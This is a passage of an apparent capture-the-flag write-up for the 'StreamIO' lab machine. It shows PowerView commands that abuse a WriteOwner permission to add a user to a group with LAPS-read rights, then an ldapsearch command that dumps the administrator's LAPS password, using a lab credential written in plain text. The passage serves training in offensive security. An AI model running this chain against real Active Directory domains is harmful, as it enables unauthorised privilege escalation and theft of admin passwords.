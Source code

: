 We can see that: 
- the domain user JDgodd has WriteOwner over the group CORE STAFF and 
- CORE STAFF have LAPS read ability on the domain controller, which will allow anyone in the CORE STAFF group to read the LAPS passwords for any user. 

To abuse this we need to add JDgodd to the CORE STAFF group and then request the LAPS password of the administrator.

```powershell
# start powerview
. .\PowerView.ps1

# add JDgodd's password to PSCredential object
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# As JDgodd has WriteOwner ACL attributed to their account, we can set JDgodd as the domain object
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred

# grant all rights via the ACL
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All

# add JDgodd into the CORE STAFF group that they now own.
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred

# Verify that JDgodd is a part of CORE STAFF group.
net group 'CORE STAFF'
```

## Extract the administrator password from LAPS

[This link | Dump LAPS password with ldapsearch](https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/) features a good explanation of this process.

```sh
ldapsearch -h streamio.htb -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w
'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


